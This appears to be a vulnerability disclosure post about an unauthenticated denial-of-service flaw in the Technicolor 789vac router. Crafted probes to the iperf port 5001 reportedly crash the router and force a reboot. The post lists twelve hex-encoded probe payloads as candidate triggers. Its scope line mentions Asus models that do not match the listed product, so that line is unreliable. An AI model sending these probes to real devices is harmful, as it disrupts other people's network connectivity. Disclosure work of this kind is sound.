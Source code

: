 ```yaml
---
layout: post
title: -
date: 2025-01-15
comments: -
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of possible probes collected: 
```
Probe #1: 010000fdcefa0bb0a00000004d4d53140000000000000000000000000000001200000001000300f0f0f0f00b0004001c0003004e00530050006c0061007900650072002f0039002e0030002e0030002e0032003900380030003b0020007b00300030003000300041004100300030002d0030004100300030002d0030003000610030002d0041004100300041002d003000300030003000410030004100410030004100410030007d000000e06ddf5f
Probe #2: 0000001f000000000000000c476574436c6173734e616d650000000204000000000100
Probe #3: 0d0a0d0a
Probe #4: 474554202f20485454502f312e300d0a0d0a
Probe #5: 4f5054494f4e53202f20485454502f312e300d0a0d0a
Probe #6: 4f5054494f4e53202f20525453502f312e300d0a0d0a
Probe #7: 8000002872fe1d130000000000000002000186a00001977c0000000000000000000000000000000000000000
Probe #8: 001e0006010000010000000000000776657273696f6e0462696e640000100003
Probe #9: 000c000010000000000000000000
Probe #10: 48454c500d0a
Probe #11: 16030000530100004f03003f47d7f7ba2ceeeab2607ef300fd827bb9d596c8779be6c4db3c3ddb6fef106e00002800160013000a006600050004006500640063006200610060001500120009001400110008000600030100
Probe #12: 0300002a25e00000000000436f6f6b69653a206d737473686173683d6e6d61700d0a0100080003000000
```

 
